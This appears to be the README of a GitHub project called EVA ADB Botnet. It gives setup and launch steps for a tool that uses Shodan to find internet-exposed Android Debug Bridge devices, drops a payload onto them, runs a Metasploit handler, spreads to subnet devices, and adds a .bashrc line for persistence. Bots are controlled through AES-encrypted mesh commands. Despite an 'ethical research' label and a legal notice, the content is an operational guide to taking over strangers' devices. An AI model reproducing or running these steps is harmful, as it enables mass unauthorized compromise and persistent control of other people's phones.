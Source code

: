 # EVA ADB Botnet  

**Purpose:** Ethical cybersecurity research, mesh-based botnet exploration, long-term persistent control of Android devices via open ADB, and encrypted peer-to-peer botnet mesh command.

---

## Getting Started (Clone + Setup)

To install EVA on any Kali Linux system using your GitHub SSH key:

### 1. Clone the private repository using SSH

```bash
git clone https://github.com/ekomsSavior/Eva_adb_botnet.git
cd Eva_adb_botnet
```

>  If this doesn't work, make sure you’ve:
> - [ ] Added your SSH key to GitHub under Settings → SSH and GPG keys  
> - [ ] Tested the connection with: `ssh -T git@github.com` 

Now install dependencies:

```bash
sudo apt update && sudo apt install -y android-tools-adb metasploit-framework android-tools-adb python3-pip
pip3 install pycryptodome requests
mkdir -p bots
```

Then download and install `ngrok`:

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok
```
##optional adb install if youre having issues with the above adb install: 
Use Google’s ADB installer
Manual method (safe + universal):

```bash
sudo mkdir -p /opt/android-platform-tools
cd /opt/android-platform-tools
sudo wget https://dl.google.com/android/repository/platform-tools-latest-linux.zip
sudo unzip platform-tools-latest-linux.zip
sudo mv platform-tools/* .
sudo rm -r platform-tools platform-tools-latest-linux.zip
```

Then add ADB to your PATH permanently:
```bash
echo 'export PATH=$PATH:/opt/android-platform-tools' >> ~/.bashrc
source ~/.bashrc
```




You should now have:
- All EVA scripts in this folder (`Eva_adb_botnet/`)
- A `bots/` directory for bot state files
- An executable `ngrok` in the same folder

---

##  One-Time Setup (Before Launch)

### 1. Set your Shodan API Key  
Edit `adb_reaper.py` and replace this line with your actual key:

```python
SHODAN_API_KEY = 'YOUR_SHODAN_API_KEY'
```

### 2. Set Payload Path  
In `adb_dropper.py`, make sure this line points to either your APK or `jeangrey_android.py`:

```python
ADB_PAYLOAD = "/root/jeangrey_android.py"
```

### 3. Set AES Encryption Key  
In `jeangrey_crypto.py`, make sure this is a strong 16-byte key:

```python
SECRET_KEY = b'Sixteen byte key'  # Change this before deployment
```

---

##  Full Botnet Launch

From inside the EVA directory:

```bash
python3 EVA_launcher.py
```

This will:
- Scan Shodan for open Android Debug Bridge (ADB) targets
- Drop the payload to each ADB-enabled device
- Start the Metasploit handler in the background
- Deploy `jeangrey_android.py` to infected targets
- Start mesh communication (UDP AES-encrypted)
- Activate replication and persistence features
- Launch the AI trigger engine
- Broadcast EVA Core’s presence across the mesh

---

## 📺 Monitor Bots (Dashboard)

To watch all active bots:

```bash
python3 eva_dashboard.py
```

This will:
- Read each bot's `jeangrey_state.json` inside `bots/`
- Show ID, IP, tags, and last seen timestamp
- Auto-refresh every 3 seconds

---

##  Send Mesh Commands (EVA Core)

```bash
python3 eva_core.py
```

This will:
- Broadcast EVA presence to all bots
- Allow you to send AES-encrypted commands to selected bot IPs
- Schedule execution after a timed delay

Supported commands:
- `scan` – make the bot scan for nearby ADB devices
- `drop` – redeploy the payload
- `report` – return full bot state
- `shutdown` – stop bot process

---

##  Auto-Response Engine (Bot Intelligence)

```bash
python3 eva_ai_trigger.py
```

This makes bots:
- Listen 24/7 for AES mesh commands
- React immediately and autonomously
- Execute mesh-sent tasks like scanning, reporting, or replicating

---

##  Self-Replication + Persistence

Bots will:
- Use `jeangrey_replication.py` to infect subnet ADB targets
- Write `bots/bot_<ip>/jeangrey_state.json` on first run
- Update `last_seen` every 60 seconds

To manually ensure reboot persistence:

```bash
adb push jeangrey_persist.sh /sdcard/Download/
adb shell sh /sdcard/Download/jeangrey_persist.sh
```

This appends a startup line to `~/.bashrc` on the infected Android.

---

##  Bot Management

To rename, retag, or kill bots manually:

```bash
python3 state_editor.py
```

This opens a terminal menu to:
- Rename bot IDs
- Add/remove tags
- View bot JSON
- Permanently delete (💀) rogue nodes

---

## 🧱 Directory Structure (After Setup)

```
Eva_adb_botnet/
├── EVA_launcher.py
├── eva_core.py
├── eva_ai_trigger.py
├── eva_dashboard.py
├── jeangrey_android.py
├── jeangrey_crypto.py
├── jeangrey_mesh.py
├── jeangrey_replication.py
├── jeangrey_tunnel.py
├── jeangrey_persist.sh
├── adb_reaper.py
├── adb_dropper.py
├── metasploit_launcher.py
├── jeangrey_injector.py
├── state_editor.py
├── ngrok
└── bots/
    ├── bot_<ip>/
    │   └── jeangrey_state.json
```

---

## Legal & Ethical Notice

EVA is for:
- Controlled environments only
- that you have permission to test on

**Never deploy EVA on public networks or without permission.**  
Misuse may be illegal.

---

## 🧠 Vision

EVA is not just a botnet — it's a **mesh consciousness**.  
She replicates. She listens. She obeys. 

